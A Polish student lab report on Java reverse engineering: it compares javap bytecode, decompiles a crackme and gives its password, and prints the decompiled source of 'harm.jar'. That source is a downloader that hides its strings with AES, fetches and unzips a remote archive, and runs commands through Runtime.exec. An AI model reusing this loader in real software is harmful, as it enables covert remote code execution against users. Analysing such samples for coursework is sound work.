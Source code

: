 # APRO2 Lab5 Sprawozdanie

###### Tomasz Mycielski (304248)

## Zadanie 1

Na potrzeby zadania stworzyłem dwie klasy:
- `ConcatenatorPlusEquals`:
```java
package com.company.z1;

public class ConcatenatorPlusEquals {

    public static void main(String[] args) {
        String concatenation;
        concatenation = "String1" + "String2";
        System.out.println(concatenation);
    }
}
```
- `ConcatenatorStringBuilder`:
```java
package com.company.z1;

public class ConcatenatorStringBuilder {
    public static void main(String[] args) {
        StringBuilder stringBuilder;
        stringBuilder = new StringBuilder();
        stringBuilder.append("String1");
        stringBuilder.append("String2");
        String string;
        string = stringBuilder.toString();
        System.out.println(string);
    }
}
```

Wywołanie komendy `javap` na plikach `.class`, do których zostały skompilowane powyższe programy, wygenerowało następujący output:

- dla `ConcatenatorPlusEquals`:
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
  public static void main(java.lang.String[]);
}
```

- dla 'ConcatenatorStringBuilder':
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
  public static void main(java.lang.String[]);
}
```

Z powyższego wywnioskować można niewiele. Wiemy, że obydwa programy mają podobną strukturę — jest w nich tylko metoda `main(String[])`.

Program `javap` daje nam jednak do dyspozycji jeszcze opcję Disassemble the code, oznaczoną `-c`. Po wywołaniu komendy `javap -c` na tych samych plikach możemy dowiedzieć się o wiele więcej o programie:
- `ConcatenatorPlusEquals`
```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: ldc           #7                  // String String1
       2: astore_1
       3: aload_1
       4: invokedynamic #9,  0              // InvokeDynamic #0:makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;
       9: astore_1
      10: getstatic     #13                 // Field java/lang/System.out:Ljava/io/PrintStream;
      13: aload_1
      14: invokevirtual #19                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      17: return
}
```
- `ConcatenatorStringBuilder`
```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: new           #7                  // class java/lang/StringBuilder
       3: dup
       4: invokespecial #9                  // Method java/lang/StringBuilder."<init>":()V
       7: astore_1
       8: aload_1
       9: ldc           #10                 // String String1
      11: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      14: pop
      15: aload_1
      16: ldc           #16                 // String String2
      18: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      21: pop
      22: aload_1
      23: invokevirtual #18                 // Method java/lang/StringBuilder.toString:()Ljava/lang/String;
      26: astore_2
      27: getstatic     #22                 // Field java/lang/System.out:Ljava/io/PrintStream;
      30: aload_2
      31: invokevirtual #28                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      34: return
}
```
Otrzymaliśmy kod bajtowy Javy. Korzystając z jego dokumentacji dostępnej na [stronie](https://docs.oracle.com/javase/specs/jvms/se7/html/jvms-6.html) Oracle, możemy sporo dowiedzieć się o programie. Jednak już na pierwszy rzut oka widać, w której wersji programu wykorzystany został `StringBuilder`, a w której `+` do konkatenacji dwóch stringów. 

Moją szczególną uwagę zwrócił fakt, że w przypadku programu korzystającego ze `StringBuilder` możemy odczytać obydwa ciągi znaków, które ze sobą konkatenujemy, a w programie korzystającym z `+=` tylko drugi z nich.

Pliki `.class`, które podawałem do `javap` dostępne są w [lab5/out/production/lab5/com/company/z1/](./out/production/lab5/com/company/z1/).

## Zadanie 2

Do wykonania tego zadania wykorzystałem narzędzie [`Procyon`](https://github.com/ststeiger/procyon) na stronie [javadecompilers.com](javadecompilers.com). Po wysłaniu danego pliku na stronę dowiedziałem się, że program składa się z klas - `Coder` i `Main`:
- `Main.class`:
```java
package com.company;

import java.util.Date;
import java.time.Instant;
import java.text.SimpleDateFormat;

public class Main
{
    public static void main(final String[] array) {
        if (array.length != 1) {
            System.out.println("Wrong password!");
            return;
        }
        final String[] split = array[0].split("_");
        final int int1 = Integer.parseInt(new SimpleDateFormat("MM").format(Date.from(Instant.now())));
        if (split[0].length() == 7 && split[1].length() == 2) {
            if (split[0].equals(Coder.code("00PYe8m")) && Integer.parseInt(split[1]) == int1) {
                System.out.println("Good guess");
            }
            else {
                System.out.println("Wrong password!");
            }
        }
        else {
            System.out.println("Wrong password!");
        }
    }
}
```

- `Coder.class`:
```java
package com.company;

public class Coder
{
    static String code(final String s) {
        final StringBuilder sb = new StringBuilder();
        for (int i = 0; i < s.length(); ++i) {
            sb.append((char)(s.charAt(i) + '\u0001'));
        }
        return sb.toString();
    }
}
```

Mając do dyspozycji powyższy kod, postarałem się odwzorować [program](lab5/src/com/company/z2) w swoim IDE. Po analizie kodu ustaliłem, że hasło ma strukturę `[7 znaków] podkreślnik [2 znaki]`. Siedem pierwszych znaków to output metody `Coder.code("00PYe8m")`, a dwa ostatnie znaki to numer obecnego miesiąca.

Sprawdzam [hasło](lab5/password.txt):
```text
$ java -jar ./Tomasz_Jerzy_Mycielski_task_2.jar 11QZf9n_04
Good guess
```

## Zadanie 3

Zdekompilowałem plik `harm.jar` dekompilatorem [`CFR`](https://github.com/leibnitz27/cfr).
<details>
<summary>Zdekompilowany kod</summary>

```java
/*
 * Decompiled with CFR 0.150.
 */
package com.company.z3.com.crack.it;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class Run {
private static String key = "Kjf456UjOP14Ywte";

    private static byte[] a(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    private static String b(String string) throws Exception {
        byte[] arrby = Run.a(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));
        cipher.init(2, (Key)secretKeySpec, ivParameterSpec);
        byte[] arrby2 = cipher.doFinal(arrby);
        return new String(arrby2);
    }

    private static void c(String string) throws Exception {
        URL uRL = new URL(string);
        Path path = Paths.get(System.getProperty(Run.b("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.b("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());){
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
            }
        }
        catch (IOException iOException) {
            // empty catch block
        }
        Run.d(path2, path);
    }

    private static void d(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
            }
            byte[] arrby = new byte[1024];
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString()));
            ZipEntry zipEntry = zipInputStream.getNextEntry();
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        }
        catch (Exception exception) {
            // empty catch block
        }
    }

    public static void main(String[] arrstring) throws Exception {
        String string = System.getProperty(Run.b("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.b("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        Run.c(Run.b("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        if (string.contains(string2)) {
            Runtime.getRuntime().exec(Run.b("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
            Runtime.getRuntime().exec(Run.b("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
    }
}
```

</details>

Kod ten, po wprowadzeniu komentarzy (będących wynikiem analizy statycznej) wyjaśniających jego działanie, dostępny jest w katalogu [z3](lab5/src/com/company/z3/com/crack/it/).

